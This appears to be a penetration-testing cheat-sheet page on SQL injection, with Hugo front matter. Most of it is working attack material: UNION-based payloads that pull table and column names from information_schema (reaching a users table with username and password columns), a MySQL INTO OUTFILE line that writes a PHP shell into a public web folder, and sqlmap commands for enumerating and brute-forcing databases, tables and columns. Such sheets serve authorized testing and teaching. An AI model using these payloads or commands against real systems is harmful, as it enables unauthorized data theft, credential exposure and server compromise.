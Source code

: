 ```yaml
---
### The title for the content.
title : "SQL Injection"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "sql injection"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "SQL Injection description."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "sql-injection"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## sql injection


## External stuff

[exploit-db](https://www.exploit-db.com/papers/13045/) [ASCII table](https://github.com/justin-p/sec-stuff/blob/master/general%20info/ascii-table.md)

### Always True

1=1 a=a

### Escape/stop

#### mysql 

```sql
# 
-- 
#--
```

### MySQL Verison

select version\(\)

### information Schema

#### Table names

```sql
SELECT table_schema,table_name FROM information_Schema.tables

SELECT CONCAT(table_schema,table_name) FROM information_Schema.tables

SELECT CONCAT(table_schema,char(58),table_name) FROM information_Schema.tables
```

#### Injection example 1

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 ORDER BY table_name LIMIT 0,1) #--
```

```text
dummymalex:dummyms
table_schema = dummymalex
table_name   = dummyms
```

#### Hide stuff we dont need

```sql
AND table_schema != 'information_schema'
```

#### Injection example 2

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 AND table_schema != 'information_schema' ORDER BY table_name LIMIT 0,1) #--
```

```text
LIMIT 0,1
dummymalex:dummyms 
table_schema = dummymalex
table_name   = dummyms 

LIMIT 1,1 
dummymalex:users     
table_schema = dummymalex
table_name   = users
```

#### column\_name

```sql
SELECT column_schema,column_name FROM information_Schema.columns
```

#### Injection Example 1

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='dummyms' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
dummyms

LIMIT 2,1
description
```

#### Injection Example 2

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='users' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
username

LIMIT 2,1
password
```

### upload shell with INTO OUTFILE

```sql
select 'SHELLCODE' INTO OUTFILE '/path/to/public/folder/shell.php';
```

## SQLmap

### Simple usage

```
sqlmap -u "http://target_server/"
```

### Set target DBMS to MySQL
```
sqlmap -u "http://target_server/" --dbms=mysql
```

### Use POST requests

```
sqlmap -u "http://target_server/" --data=param1=value1&param2=value2
```

### Use POST request file

```
sqlmap -r request.txt -p [param-to-test]
```

### Batch run

```
sqlmap -r request.txt -p [param-to-test] --Batch
```

### Set Risk/Level

```
sqlmap -r request.txt -p psw --level=5 --risk=3 --dbms mysql --batch
```

### enumerate databases

```
sqlmap -r request.txt --batch --dbs
``` 

### enumerate tables

``` 
sqlmap -r request.txt -batch --tables
``` 

### brute-force tables

```
sqlmap -r request.txt -batch --common-tables
```

### brute-force columns

```
sqlmap -r request.txt -batch -T users --common-column
```